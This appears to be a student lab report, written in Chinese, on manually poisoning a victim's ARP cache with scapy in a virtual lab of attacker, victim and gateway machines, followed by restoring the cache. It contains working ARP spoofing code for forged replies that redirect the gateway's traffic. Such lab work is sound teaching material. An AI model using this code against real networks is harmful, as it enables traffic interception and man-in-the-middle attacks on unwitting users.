






# 第四章网络监听第二次实验

## 相关配置信息

- kali-attacker 

  - 172.16.111.133

  - 08:00:27:36:b5:e8

- kali-victim 
  - 172.16.111.117
  - 08:00:27:d6:f5:93

- debian-gateway 
  - 172.16.111.1
  - 08:00:27:b5:08:bc

## 实验准备

### scapy安装



## 实验内容

### 实验2 手工单步“毒化”目标主机ARP缓存

```shell
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
arpbroadcast.show()
```



```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```



```shell
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:36:b5:e8")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



```shell
#此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
ip neigh
```


```shell
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b5:08:bc", pdst="172.16.111.117", hwdst="08:00:27:d6:f5:93")
sendp(restorepkt1, count=100, inter=0.2)
```



```shell
此时在img/受害者主机上准备“刷新”网关 ARP 记录。
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存
ip neigh
```



## 参考资料

- [网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [参考资料](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/chap0%C3%9704)
- [wireshark](https://www.jianshu.com/p/91e0f8bea7f7)
- [Scapy中的ARP](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)


